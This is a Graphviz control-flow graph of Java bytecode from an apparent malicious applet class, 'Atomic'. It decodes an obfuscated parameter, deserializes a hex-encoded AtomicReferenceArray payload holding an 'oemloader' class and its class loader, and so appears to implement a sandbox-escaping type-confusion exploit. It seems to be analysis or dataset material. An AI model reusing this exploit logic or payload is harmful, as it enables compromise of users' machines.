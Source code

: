 digraph "" {
    "r0 := @this: Atomic"
    "load.r r0"
    "r0 := @this: Atomic"->"load.r r0";
    "push \"d123es123t\""
    "load.r r0"->"push \"d123es123t\"";
    "push \"123\""
    "push \"d123es123t\""->"push \"123\"";
    "push \"\""
    "push \"123\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <Atomic: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <Atomic: java.lang.String getParameter(java.lang.String)>";
    "staticput <Links: java.lang.String lob>"
    "virtualinvoke <Atomic: java.lang.String getParameter(java.lang.String)>"->"staticput <Links: java.lang.String lob>";
    "staticput <Links: java.lang.String lob>"->"load.r r0";
    "specialinvoke <Atomic: void kkuud()>"
    "load.r r0"->"specialinvoke <Atomic: void kkuud()>";
    "push \"ACED0005757200135B4C6A6176612E6C616E672E4F626A6563743B90CE589F1073296C0200007870000000027572000c5b4c6f656d6c6f616465723bbdbda708bcbbf32702000078700000000170737200306A6176612E7574696C2E636F6E63757272656E742E61746F6D69632E41746F6D69635265666572656E63654172726179A9D2DEA1BE65600C0200015B000561727261797400135B4C6A6176612F6C616E672F4F626A6563743B787071007E0003\""
    "specialinvoke <Atomic: void kkuud()>"->"push \"ACED0005757200135B4C6A6176612E6C616E672E4F626A6563743B90CE589F1073296C0200007870000000027572000c5b4c6f656d6c6f616465723bbdbda708bcbbf32702000078700000000170737200306A6176612E7574696C2E636F6E63757272656E742E61746F6D69632E41746F6D69635265666572656E63654172726179A9D2DEA1BE65600C0200015B000561727261797400135B4C6A6176612F6C616E672F4F626A6563743B787071007E0003\"";
    "staticinvoke <Atomic: byte[] hexToByte(java.lang.String)>"
    "push \"ACED0005757200135B4C6A6176612E6C616E672E4F626A6563743B90CE589F1073296C0200007870000000027572000c5b4c6f656d6c6f616465723bbdbda708bcbbf32702000078700000000170737200306A6176612E7574696C2E636F6E63757272656E742E61746F6D69632E41746F6D69635265666572656E63654172726179A9D2DEA1BE65600C0200015B000561727261797400135B4C6A6176612F6C616E672F4F626A6563743B787071007E0003\""->"staticinvoke <Atomic: byte[] hexToByte(java.lang.String)>";
    "store.r r1"
    "staticinvoke <Atomic: byte[] hexToByte(java.lang.String)>"->"store.r r1";
    "store.r r1"->"load.r r0";
    "load.r r0"->"specialinvoke <Atomic: void kkuud()>";
    "new java.io.ObjectInputStream"
    "specialinvoke <Atomic: void kkuud()>"->"new java.io.ObjectInputStream";
    "dup1.r"
    "new java.io.ObjectInputStream"->"dup1.r";
    "new java.io.ByteArrayInputStream"
    "dup1.r"->"new java.io.ByteArrayInputStream";
    "new java.io.ByteArrayInputStream"->"dup1.r";
    "load.r r1"
    "dup1.r"->"load.r r1";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "load.r r1"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"load.r r0";
    "load.r r0"->"specialinvoke <Atomic: void kkuud()>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <Atomic: void kkuud()>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "checkcast"
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"dup1.r";
    "dup1.r"->"load.r r0";
    "load.r r0"->"specialinvoke <Atomic: void kkuud()>";
    "push 0"
    "specialinvoke <Atomic: void kkuud()>"->"push 0";
    "arrayread.r"
    "push 0"->"arrayread.r";
    "arrayread.r"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"store.r r1";
    "store.r r1"->"load.r r0";
    "load.r r0"->"specialinvoke <Atomic: void kkuud()>";
    "push 1"
    "specialinvoke <Atomic: void kkuud()>"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"checkcast";
    "checkcast"->"load.r r0";
    "load.r r0"->"specialinvoke <Atomic: void kkuud()>";
    "specialinvoke <Atomic: void kkuud()>"->"push 0";
    "push 0"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>";
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"->"load.r r0";
    "load.r r0"->"specialinvoke <Atomic: void kkuud()>";
    "virtualinvoke <java.util.concurrent.atomic.AtomicReferenceArray: void set(int,java.lang.Object)>"
    "specialinvoke <Atomic: void kkuud()>"->"virtualinvoke <java.util.concurrent.atomic.AtomicReferenceArray: void set(int,java.lang.Object)>";
    "virtualinvoke <java.util.concurrent.atomic.AtomicReferenceArray: void set(int,java.lang.Object)>"->"load.r r0";
    "load.r r0"->"specialinvoke <Atomic: void kkuud()>";
    "specialinvoke <Atomic: void kkuud()>"->"load.r r1";
    "load.r r1"->"push 0";
    "push 0"->"arrayread.r";
    "staticinvoke <oemloader: void getLoader(oemloader)>"
    "arrayread.r"->"staticinvoke <oemloader: void getLoader(oemloader)>";
    "goto return"
    "staticinvoke <oemloader: void getLoader(oemloader)>"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "staticinvoke <oemloader: void getLoader(oemloader)>"->"store.r r0";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "push \"1\""
    "staticget <java.lang.System: java.io.PrintStream out>"->"push \"1\"";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "push \"1\""->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
}
